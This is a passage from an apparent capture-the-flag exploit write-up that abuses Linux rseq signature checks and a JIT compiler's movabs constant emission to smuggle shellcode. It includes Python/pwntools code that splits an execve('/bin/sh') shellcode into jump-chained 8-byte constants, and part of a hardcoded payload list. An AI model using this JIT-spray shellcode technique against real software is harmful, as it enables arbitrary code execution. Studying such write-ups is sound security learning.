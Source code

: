 ```c
		"Possible attack attempt. Unexpected rseq signature 0x%x, expecting 0x%x (pid=%d, addr=%p).\n",
		sig, current->rseq_sig, current->pid, usig);
	return -EINVAL;
}
```
The signature used is the last argument of the `rseq` syscall, so we can retrieve it with strace (it is a constant)
> rseq(0x7f417ce63680, 0x20, 0, **0x53053053**) = 0

[`rseq_need_restart()`](https://elixir.bootlin.com/linux/v6.13.8/source/kernel/rseq.c#L218) have more checks:
- rseq_cs->flags needs to be 0 (only way to get `rseq_warn_flags()` to return false)
- same for rseq->flags


### Where to jump

If we input a sequence of nested addition like this: `a+(b+(c+(d+...)))`, the parser and compiler will put series of push instruction in the code, in the abcd... order. \
If those numbers are big enough, `emit_push()` will emit a 64 bit push (using `movabs`) and we will be able control 8 bytes parts in the jit page. Those 8 bytes parts will contains our shellcode (actually 6 bytes because 2 bytes are reserved to jump to the next part).

This is a useful trick I learned in a [blogpost](https://anvbis.au/posts/code-execution-in-chromiums-v8-heap-sandbox/) (same idea used with wasm code in v8). \
I already had code to convert a shellcode into a series of movabs, I used it on a `execve("/bin/sh")` shellcode but one could also put a small `read()` shellcode and rewrite the rwx page with a bigger shellcode.

```py
code = """
xor eax, eax
mov ebx, 0x0068732f
shl rbx, 32
mov ecx, 0x6e69622f
or rbx, rcx
push rbx
mov rdi, rsp
xor esi, esi
xor edx, edx
push 0x3b   
pop rax
syscall
"""

code = [asm(c) for c in code.splitlines()]
jmp = b"\xeb\x03" # jmp 5

parts = [b""]
for c in code:
    p = parts[-1]
    if len(p) + len(c) > 6:
        parts[-1] = p.ljust(6, b"\x90") + jmp
        parts.append(c)
    else:
        parts[-1] += c
parts[-1] = p.ljust(6, b"\x90") + jmp
parts = [u64(p) for p in parts]
```
pwntool's `asm()` is slow so I printed the numbers and then hardcoded them. Don't forget to edit the first one to include the required restartable sequence signature:
```py
numbers = [
    0x03eb909053053053,
    0x03eb90909090c031,
```